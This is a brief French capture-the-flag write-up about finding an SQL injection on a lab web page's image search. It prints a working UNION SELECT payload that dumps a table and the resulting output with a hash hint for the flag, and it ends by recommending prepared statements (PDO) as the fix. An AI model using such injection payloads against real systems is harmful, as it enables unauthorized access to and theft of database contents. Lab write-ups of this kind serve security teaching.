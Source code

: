# SQL Injection images

## Trouver la faille
Sur la page http://192.168.0.32/?page=searchimg

On utilise la meme chose que pour les memebers, on trouve le nom de la table et les colonnes necessaire

```bash
0 or 1 UNION select url, comment from list_images

result:
ID: 0 or 1 UNION select url, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png
```

On décrypt avec md5 et on crypte avec Sh256 on aura le flag

## Comment utiliser cette faille
c'est un accée a toute la bdd

## Solution
Il faut utiliser des requetes SQL prepared telsque PDO
